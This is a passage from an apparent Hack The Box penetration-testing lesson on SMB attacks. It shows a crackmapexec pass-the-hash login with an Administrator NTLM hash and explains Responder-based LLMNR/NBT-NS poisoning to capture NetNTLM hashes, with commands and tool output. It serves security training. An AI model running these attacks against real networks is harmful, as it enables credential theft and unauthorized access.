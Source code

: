 ```shell-session
al1abb@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\Administrator:2B576ACBE6BCFDA7294D6BD18041B8FE (Pwn3d!)
```

### **Forced Authentication Attacks**

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

The most common tool to perform such operations is the `Responder`. [Responder](https://github.com/lgandx/Responder) is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find LLMNR and NBT-NS traffic. Then, it will respond on behalf of the servers the victim is looking for and capture their NetNTLM hashes.

Let's illustrate an example to understand better how `Responder` works. Imagine we created a fake SMB server using the Responder default configuration, with the following command:

```shell-session
al1abb@htb[/htb]$ responder -I <interface name>
```

When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:

* The hostname file share's IP address is required.
* The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
* If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
* Is there no local DNS record? A query will be sent to the DNS server that has been configured.
* If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.

Suppose a user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\`. In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server. This is a problem because no measures are taken to verify the integrity of the responses. Attackers can take advantage of this mechanism by listening in on such queries and spoofing responses, leading the victim to believe malicious servers are trustworthy. This trust is usually used to steal credentials.

```shell-session
al1abb@htb[/htb]$ sudo responder -I ens33

                                         __               
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|              

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
               
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:                
    LLMNR                      [ON]
    NBT-NS                     [ON]        
    DNS/MDNS                   [ON]   
                                                                                                                                                                                          
[+] Servers:         
    HTTP server                [ON]                                   
```